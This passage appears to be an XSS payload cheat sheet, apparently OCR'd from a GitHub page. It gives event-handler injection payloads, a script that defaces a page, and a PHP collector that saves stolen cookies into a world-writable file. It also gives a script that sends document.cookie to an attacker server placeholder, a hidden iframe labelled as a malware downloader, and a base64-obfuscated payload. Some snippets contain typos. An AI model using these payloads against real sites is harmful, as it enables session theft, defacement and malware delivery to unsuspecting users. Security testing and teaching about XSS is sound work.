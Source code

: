 ```javascript
" onload="alert('XSS')
```

bla is not a valid image, so this cause an error

```javascript
<img src='bla' onerror=alert("XSS")>
```

### Persistent

```javascript
>document.body.innerHTML="<style>body{visibility:hidden;}</style><div style=visibility:visible;><h1>HACKED!</h1></div>";
````

### PHP collector

`> cookie.txt`
`chmod 777 cookie.txt`

edit a php page like colector.php as follow:

```php
<?php
  $cookie=GET['cookie'];
  $useragent=$_SERVER['HTTP_USER_AGENT'];
  $file=fopen('cookie.txt', 'a');
  fwrite($file,"USER AGENT:$useragent || COOKIE=$cookie\n");
  fclose($file);
?>
```

Script to put in page:

```javascript
<scritp>new Image().src="http://OUR_SERVER_IP/colector.php?cookie="+document.cookie;</script>
```

#### Malware Donwloader via XSS

```javascript
<iframe src="http://OUR_SERVER_IP/OUR_MALWARE" height="0" width="0"></iframe>
```

#### How to play Mario with XSS

```javascript
<iframe src="https://jcw87.github.io/c2-smb1/" width="100%" height="600"></iframe>
```

```javascript
<input onfocus="document.body.innerHTML=atob('PGlmcmFtZSBzcmM9Imh0dHBzOi8vamN3ODcuZ2l0aHViLmlvL2MyLXNtYjEvIiB3aWR0aD0iMTAwJSIgaGVpZ2h0PSI2MDAiPjwvaWZyYW1lPg==')" autofocus>
```

#### XSS payloads
